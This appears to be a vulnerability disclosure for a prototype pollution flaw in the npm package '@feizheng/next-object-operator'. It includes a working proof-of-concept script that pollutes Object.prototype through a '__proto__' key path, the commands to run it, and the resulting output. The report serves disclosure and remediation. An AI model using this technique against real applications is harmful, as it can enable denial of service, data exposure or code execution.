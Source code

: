 # Description

`@feizheng/next-object-operator` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nextObjectOperator = require("@feizheng/next-object-operator")
const data = {};
const operator = new nextObjectOperator(data);
console.log("Before : " + {}.polluted);
operator.set('__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i @feizheng/next-object-operator # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```

